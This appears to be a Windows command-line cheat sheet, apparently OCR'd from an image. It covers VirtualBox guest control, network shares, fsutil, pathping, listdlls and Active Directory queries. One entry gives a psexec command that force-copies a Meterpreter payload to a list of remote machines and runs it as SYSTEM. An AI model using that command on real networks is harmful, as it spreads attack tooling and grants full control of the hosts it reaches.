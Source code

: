 #### Make folder inside a guest from the host

**VirtualBox**

```
C:\> vboxmanage guestcontrol "WinXP" md "C:\\test" --username "user" --password "pass"
```

#### Force copy meterpreter binary to remote machines & run as system

```
C:\> psexec @$ips.txt -s -u adminuser -p pass -f -c \exploits\mp.exe
```

#### Create n/w share called `Apps`, with read access & limit to 10 conns

```
C:\> net share Apps=C:\Apps /G:everyone,READ /US:10
```

#### List all the drives under My Computer using fsutil

```
C:\> fsutil.exe fsinfo drives
```

#### Troubleshoot n/w packet drops with router statistics using pathping

```
C:\> pathping -n www.google.com
```

#### List unsigned dlls for a specific process.

**For system wide list, remove the process name**

```
C:\> listdlls -u explorer.exe
```

#### Obtain a list of Windows XP computers on the domain using PS

**Server2008**

```
PS C:\> Get-ADComputer -filter {OperatingSystem -like "*XP*"}
```

#### Open the System Properties window, with the `Advanced` tab selected

**Change the number for different tabs**

```
C:\> control sysdm.cpl,,3
```
